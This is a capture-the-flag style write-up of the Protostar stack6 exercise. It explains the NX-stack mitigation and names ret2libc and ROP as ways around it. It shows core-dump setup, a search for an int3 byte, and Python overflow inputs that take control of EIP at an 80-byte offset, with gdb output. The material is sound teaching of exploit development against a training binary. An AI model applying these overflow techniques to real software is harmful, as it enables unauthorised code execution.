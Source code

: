 ## General Methodology 

What exactly is an NX-Stack and why would the stack be NX ?! It is a binary exploitation mitigation, introduced to counter stack-based buffer overflows [3], along with stack canaries[4]. The general idea is that by marking the stack as Readable, Writeable and Non-Executable the processor is prevented from executing instructions from the stack (and hence potentially malicious input). In contrast, memory regions that contain code and are marked as Read-Only and Executable in an effort to ensure code integrity and thus add a security layer.

So now the game is somewhat harder, we need to defeat the NX-stack. There are two ways to do this, and I did both just to check that I could. The first way is by returning to a libc function of choice, and the broader category is known as ret2libc attacks. When this is not possible, you can result to crafting a Return-Oriented Programming (ROP) payload, but this is considerably harder and more time consuming.

Both of these techniques assume that ASLR [5] is not enabled (and from now on we will assume it to be true for the rest of the article).

## Exploitation
### Setup 

To make things easier for us, we need to do two things:
* enable coredumps -> `$ ulimit -c unlimited`
* enable coredumps for SUID binaries -> `# echo 2 >/proc/sys/fs/suid_dumpable`
* find a debugging instruction -> `0xCC`

These will allow us to inspect the process as it crashes or hits a breakpoint, allowing us to verify our logic step by step. Debugger interrupt is `int 3` or `0xCC`, and we can look for one using `objdump`:

```
$ objdump -s ./stack6 | grep -e cc
8048248 1a000000 cc850408 04000000 11001000  ................
                 ^- here
```

Bingo, we were lucky found a break point on `0x0804824c`. Conveniently, this is in the `.text` section of the binary, so we should be able to call it without issues. 

Now we need to make our binary crash, and by trying a few different offsets we find that `80` bytes of padding are enough for the next `4` bytes to overwrite EIP:

```bash
$ python -c 'print "A" * 80 + "BBBB"' | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB
Segmentation fault (core dumped)
root@protostar:/opt/protostar/bin# gdb -q ./stack6 /tmp/core.11.stack6.1562 
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
```

Testing our breakpoint: 
```bash
$ python -c 'print "A" * 80 + "\x4c\x82\x04\x08"' | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALAAAAAAAAAAAAL�
Trace/breakpoint trap (core dumped)
root@protostar:/opt/protostar/bin# gdb -q ./stack6 /tmp/core.5.stack6.1566 
Program terminated with signal 5, Trace/breakpoint trap.
#0  0x0804824d in ?? ()
(gdb) x/i $eip-1
0x804824c:	int3 
```
